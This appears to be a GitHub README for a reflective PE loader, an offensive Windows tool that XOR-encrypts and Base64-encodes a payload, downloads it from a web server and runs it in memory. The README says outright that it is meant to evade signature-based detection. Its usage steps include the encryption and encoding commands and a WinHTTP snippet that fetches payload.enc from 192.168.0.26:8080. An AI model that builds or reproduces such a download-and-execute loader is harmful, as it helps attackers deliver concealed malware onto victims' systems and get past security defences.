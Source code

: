 # Reflective PE Loader
This project is a PE loader utilizing reflective DLL injection, XOR encryption, and Base64 encoding to obfuscate payloads. The loader fetches the encrypted payload from a web server, decodes it, and executes it. It leverages NTAPI functions for low-level Windows operations and avoids static signatures to stay undetected.

## How to Use?

1. Compile `xor.c` and use it to encrypt your PE file:
```bash
gcc xor.c -o xor
./xor <input>
```
2. Encode the XOR-encrypted payload with Base64:
```python -c "import base64; f='payload.xor'; fo='payload.enc'; d=open(f, 'rb').read(); open(fo, 'wb').write(base64.b64encode(d))"```

3. Set up a simple Python HTTP server to serve the payload.enc or modify the URL in main.c to point to your server:
```c
HINTERNET hConnect = pWinHttpConnect(hSession, L"192.168.0.26", 8080, 0);
HINTERNET hRequest = pWinHttpOpenRequest(hConnect, GET, L"/payload.enc", NULL, 0, 0, 0);
```

## Useful References
- https://www.ired.team/
